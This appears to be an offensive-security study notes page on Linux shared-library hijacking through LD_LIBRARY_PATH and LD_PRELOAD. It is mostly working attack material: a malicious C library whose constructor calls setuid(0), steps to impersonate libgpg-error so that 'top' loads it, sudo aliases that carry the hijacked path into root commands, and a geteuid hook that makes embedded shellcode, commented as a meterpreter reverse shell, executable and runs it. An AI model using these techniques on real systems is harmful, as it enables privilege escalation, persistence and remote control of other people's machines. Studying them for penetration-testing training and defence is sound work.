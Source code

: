```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Linux_Shared_Libraries
---
```


<span style="font-size: 35px; color:red"><b>Shared Libraries - LD_LIBRARY_PATH</b></span>
&nbsp;

Like DLLs on windows, but on linux.
This shared libs are in the following folders (ordered by importance):
- RPATH
- LD_LIBRARY_PATH
- RUNPATH
- <span style="color:red">/etc/ld.so.conf
- <span style="color:red">/lib</span>, <span style="color:red">/lib64</span>, <span style="color:red">/usr/lib</span>, <span style="color:red">/usr/lib64</span>, <span style="color:red">/usr/local/lib</span>, <span style="color:red">/usr/local/lib64</span>, and potentially others.

&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>LD_LIBRARY_PATH</b></span>

Code to insert in .bashrc or .bash_profile to define the LD_LIBRARY_PATH

I.E. the target system is running <span style="color:red">top</span> each 3 minutes. <span style="color:red">top</span> uses shared libraries. We can trick the system into loading a fake shared library containing an exploit developed by us.

0) <span style="color:red">On most modern systems, user environment variables are not passed on when using sudo. This setting is configured in the /etc/sudoers file by using the _env_reset_ keyword as a default. Some systems are configured to allow a user's environment to be passed on to sudo. These will have _env_keep_ set instead.</span> To solve this, set an alias in .bashrc  alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib" and remember to use source. Also try alias sudo = 'sudo -E' if not working.

1) Exploit to build to create shared library with payload:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void runmahpayload() __attribute__((constructor));

int gpgrt_onclose;
int _gpgrt_putc_overflow; //change these lines with the ones found in point 5
int gpgrt_feof_unlocked;

void runmahpayload() {
	setuid(0);
	setgid(0);
    printf("DLL HIJACKING IN PROGRESS \n");     //actual exploit
    system("touch /tmp/haxso.txt");
}
```

2) To compile:
```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -o libhax.so hax.o
```
This will produce <span style="color:red">libhax.so</span>

4) To check the libraries loaded by <span style="color:red">top</span>:
```shell
ldd /usr/bin/top
```
Check what libraries you see and chose one that might not prevent normal use of the application.

6) Set the environment variable and set the name of the exploit library to the one we want to hijack:
```shell
export LD_LIBRARY_PATH=/home/offsec/ldlib/
cp libhax.so libgpg-error.so.0 (in folder specified above!)
```

8) Find missing symbols (replace <span style="color:red">libgpg-error.so.0</span> with the library you are replacing):
```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
and copy output to the exploit shown in point 1.

10) It might be that we still miss some symbols (based on the output error from running <span style="color:red">top</spen>), you can find them like so:
```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
You can wrap the symbols into a symbol map file (<span style="color:red">gpg.map</span>) like this:
```
GPG_ERROR_1.0 {
gpgrt_onclose;
_gpgrt_putc_overflow;
...
gpgrt_fflush;
gpgrt_poll;
			//remember to add white line here
};
```

And compile everything again like so:
```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 hax.o
```

7) If not specifying the new Library path on the .bashrc/.bash_profile files, remember to export the library path: <span style="color:red">export LD_LIBRARY_PATH=/home/offsec/ldlib/</span> and run the command. To run it with <span style="color:red">sudo</span>, check point 0.

&nbsp;

---
&nbsp;

<span style="font-size: 25px; color:white"><b>Shared Libraries - LD_PRELOAD</b></span>

I.E Let's attack <span style="color:red">cp</span>.

1) <span style="color:red">ltrace cp</span> to see the various functions used by cp and find one that is used only once and possibly without input parameters. We'll redefine that function.
2) If the function that we found is - for instance - <span style="color:red">geteuid()</span>, the .c exploit is the following:
```c
#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

char buf[] = "\x48\x31\xff\x6...  //c meterpreter revshell

uid_t geteuid(void)
{
	typeof(geteuid) *old_geteuid;
	old_geteuid = dlsym(RTLD_NEXT, "geteuid");
	if (fork() == 0)
	        {
	                intptr_t pagesize = sysconf(_SC_PAGESIZE);
	                if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
	                 pagesize, PROT_READ|PROT_EXEC)) {
	                        perror("mprotect");
	                        return -1;
	                }
	                int (*ret)() = (int(*)())buf;
	                ret();
	        }
	        else
	        {
	                printf("HACK: returning from function...\n");
	                return (*old_geteuid)();
	        }
	        printf("HACK: Returning from main...\n");
	        return -2;
}
```

3) Compile it like:
```shell
gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c
gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
```

4) After opening a meterpreter shell, test the executable like so (before and after loading library, as shown below):
```shell
cp /etc/passwd /tmp/testpasswd
export LD_PRELOAD=/home/offsec/evil_geteuid.so
cp /etc/passwd /tmp/testpasswd
```

5) To run as root:
```shell
unset LD_PRELOAD
```
Also add to .bashrc:
```shell
alias sudo="sudo LD_PRELOAD=/home/offsec/evil_geteuid.so"
```
and run the command with sudo.
